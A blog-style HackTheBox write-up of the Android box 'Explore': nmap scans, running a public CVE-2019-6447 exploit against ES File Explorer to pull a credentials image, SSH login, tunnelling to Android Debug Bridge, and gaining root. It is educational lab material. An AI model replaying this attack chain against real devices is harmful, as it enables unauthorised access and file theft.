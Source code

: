 ```yaml
---
layout: post
title: "HTB: Explore"
author: Andrew Cherney
date: 2023-02-20 20:18:32
tags: htb easy-box android cve ssh-tunneling
icon: "assets/icons/explore.png"
post_description: "Android can be a beast to pentest and enumerate, but this box does a decent job of giving leads. The credentials are found in what I can only assume is the user writing it down and taking  a picture not to forget. Then root can be gained through the locally open 5555 port for android debug bridge."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 20:31 CST
Nmap scan report for 10.10.10.247
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
2222/tcp open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp filtered freeciv
```

These ports certainly are odd and indicate it is an android device. How do I know? Well first this is an Android box, but second that port 5555 is the Android Debug Bridge used for basic app maintenance (installing/debuging) and can give a command prompt. The state is filtered however, so likely this is hosted as a service but filtered to local traffic, I'll try that as a last resort. 

<h2>Ports near the void</h2>

It does strike me as odd that there are only these two ports. I decide to scan all of the ports available to see if anything turns up.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247 -p1-65535
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 21:58 CST
Nmap scan report for 10.10.10.247
Host is up (0.057s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

A little better, but not by much. In order my search yields that 33391 is unassigned, 42135 is occasionally for game servers, and 59777 is almost certainly ES File Explorer. Right out of the gate on speedguide.net it states the service has been vulnerable to CVE-2019-6447, an arbitrary file read and application execution vulnerability. 

<h1>User as u0_a76</h1>

<h2>CVE-2019-6447</h2>

[This is a proof of concept for that CVE](https://www.exploit-db.com/exploits/50070) and looking through it if you just send a post with json it'll let you run local commands on the Android shell. That said likely I cannot get a reverse shell since Android restricts its command usage pretty well. Instead with this remote command usage I can enumerate the system and search for hidden password files or images.

The commands the exploit denotes are as follows:

```
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getDeviceInfo 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

In running the basic list commands in order I come across the file named **creds.jpg** which seems odd.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $mv out.dat creds.jpg
```

![credentials](/img/explore/Explore_credentials.png)

<code>kristi</code> with password <code>Kr1sT!5h@Rp3xPl0r3!</code> should give us access. So with my machinations I still am not sure why in the initial cracking of this box I was thinking since port 8080 is http traffic that port 2222 would be ssh traffic. I tried it then and it worked.

In retrospect I see that in the initial nmap scan the port 2222 returns an ssh-hostkey, which is indicative of some sort of server with ssh connection capabilities.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ whoami
u0_a76
```

<h1>Root</h1>

<h2>SSH Tunneling</h2>

So that port on 5555 is Android Debug Bridge, and I have a hunch if I ssh tunnel to the machine I can run remote commands. 

```bash
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555
```

<h2>Android Debug Bridge</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb devices
List of devices attached
emulator-5554	device
```

Well that's promising. Now I can put adb in root mode and gain a root shell on the machine.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb root
* daemon not running; starting now at tcp:5037
* daemon started successfully
restarting adbd as root
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb -s emulator-5554 shell
x86_64:/ # whoami                                                                          
root
```

<h2>Finding the Flags</h2>

Since this is an android system and there are no home or root directories I need to find the flags. I suspect they might be in **/data** but I can toss out a search for both.

```bash
x86_64:/data # find / -name "root.txt" 2>/dev/null
/data/root.txt
1|x86_64:/data # find / -name "user.txt" 2>/dev/null                                       
/storage/emulated/0/user.txt
/mnt/runtime/write/emulated/0/user.txt
/mnt/runtime/read/emulated/0/user.txt
/mnt/runtime/default/emulated/0/user.txt
/data/media/0/user.txt
1|x86_64:/data # cat /data/root.txt
f04fc82b6d49b41c9---------------
x86_64:/data # cat /data/media/0/user.txt
f32017174c7c7e8f5---------------
```
